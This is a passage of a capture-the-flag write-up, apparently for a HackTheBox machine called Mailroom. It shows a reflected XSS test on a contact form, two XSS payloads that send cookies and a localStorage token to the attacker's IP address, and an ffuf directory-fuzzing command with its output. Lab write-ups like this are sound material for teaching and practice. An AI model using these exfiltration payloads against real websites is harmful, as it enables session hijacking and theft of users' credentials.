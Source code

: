 ![XXS test](./images/view-contact-form-status.png)

Since the message body is reflected, my very first thought is XSS. Using a basic XXS payload like `<script>alert('XSS')</script>` in the message field and visiting the link gives a XSS pop up.

Since it is vulnerable to XXS, I tried to grab cookies, but neither of these payloads worked

-   `<script>document.location='http://10.10.14.35/?c='+document.cookie</script>`
-   `<script>new Image().src='http://10.10.14.35/cookie.php?c='+localStorage.getItem('token');</script>`

Fuzzing for directories and files didn't uncover anything new

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -u http://10.10.11.209/FUZZ -o ffuf_mailroom.md -of md -t 100 -e .php -fs 277

.                       [Status: 200, Size: 7748, Words: 2851, Lines: 129, Duration: 64ms]
index.php               [Status: 200, Size: 7748, Words: 2851, Lines: 129, Duration: 62ms]
contact.php             [Status: 200, Size: 4317, Words: 1297, Lines: 87, Duration: 61ms]
about.php               [Status: 200, Size: 6891, Words: 2761, Lines: 119, Duration: 59ms]
services.php            [Status: 200, Size: 4336, Words: 1307, Lines: 76, Duration: 57ms]
```
